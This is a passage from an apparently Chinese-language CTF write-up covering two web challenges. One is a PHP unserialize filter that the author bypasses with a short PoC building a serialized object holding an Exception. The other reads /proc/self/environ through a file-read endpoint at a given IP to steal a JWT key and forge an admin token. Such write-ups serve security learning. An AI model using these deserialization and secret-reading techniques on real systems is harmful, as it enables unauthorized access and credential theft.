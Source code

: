 ```php

$p = $_GET['p'];
$honey = unserialize($p);
if(preg_match("/superGate/i", serialize($honey))){
    echo "no";
    throw Exception();
}

show_source(__FILE__);
```

superGate是肯定要的--，但是会触发`throw Exception();`抛出异常从而停止执行代码

先本地测试一下，报错是`调用了未定义的函数 Exception()`

![](https://i.loli.net/2021/10/09/woEfjvqlybZn1iJ.png)

那么定义一个就行--

poc：

```php
<?php

class superGate{
    public $gay = true;
    function __construct(){
        $this->gay = new Exception("666");
    }
}

$a = new superGate();
echo serialize($a);
```

![](https://i.loli.net/2021/10/09/8vKA3COYqn4tQbc.png)



## [😮Mid]To_be_Admin

/read接口可以读文件，/admin判断用户

一开始是想jwt的，但是爆破爆不出来密钥，猜测是得read读取一些什么

突破口是，捷宝搜到说可以读环境变量/proc/self/environ

http://121.41.7.149:65003/read?file=/proc/self/environ

发现有个key，作为密钥，jwtio改写一下就可

![](https://i.loli.net/2021/10/17/iw1grFnQ8dsejhP.png)

![](https://i.loli.net/2021/10/17/KvBJIyiQFgsWTMO.png)
